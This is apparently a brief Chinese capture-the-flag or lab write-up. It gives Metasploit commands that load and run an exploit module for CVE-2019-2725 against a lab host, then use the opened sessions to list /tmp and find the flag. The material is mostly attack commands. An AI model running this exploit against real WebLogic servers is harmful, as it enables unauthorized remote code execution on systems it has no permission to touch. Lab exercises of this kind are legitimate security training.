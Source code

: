 # 漏洞利用
```
search cve-2019-2725
use 0
set RHOSTS 192.170.84.2
run -j
```
![](./picturn/exploit.png)
# 获取 flag
```
sessions -c "ls /tmp" -i 3,4,5
```
![](./picturn/flag2.png)